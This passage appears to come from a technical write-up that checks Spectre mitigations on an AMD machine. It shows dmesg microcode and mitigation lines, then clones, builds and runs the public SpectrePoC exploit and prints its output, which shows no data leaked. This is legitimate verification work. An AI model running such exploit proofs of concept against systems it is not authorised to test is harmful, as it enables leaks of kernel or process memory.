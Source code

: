One can see that mitigation can still be improved by microcode updates.

> One can check current microcode patch level in dmesg:
>
> ```bash
> microcode: CPU0: patch_level=0x07030105
> microcode: CPU1: patch_level=0x07030105
> microcode: CPU2: patch_level=0x07030105
> microcode: CPU3: patch_level=0x07030105
> ```bash
>
> Be sure to use recent kernels with implemented mitigation (dmesg output):
>
> ```bash
> Spectre V2 : Mitigation: Full AMD retpoline
> Spectre V2 : Spectre v2 / SpectreRSB mitigation: Filling RSB on context
> switch
> Speculative Store Bypass: Mitigation: Speculative Store Bypass disabled via
> prctl and seccomp
> ```

## Spectre PoC

In order to prove that the script wrongly reports that the platform is not
vulnerable, we will perform proof of concept with the usage of Spectre PoC:

```bash
git clone https://github.com/crozone/SpectrePoC.git
cd SpectrePoC
make
```

I have run the executable with two different parameters.

```bash
./spectre.out 20
Version: commit 856f80f2937f2bb812cab68d45c149272a1783d5
Using a cache hit threshold of 20.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED INTEL_MITIGATION_DISABLED LINUX_KERNEL_MITIGATION_DISABLED
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfeeb8... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeeb9... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeeba... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebb... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeebc... Success: 0xFF=’?’ score=0
...
Reading at malicious_x = 0xffffffffffdfeedb... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedc... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedd... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeede... Success: 0xFF=’?’ score=0
Reading at malicious_x = 0xffffffffffdfeedf... Success: 0xFF=’?’ score=0
```
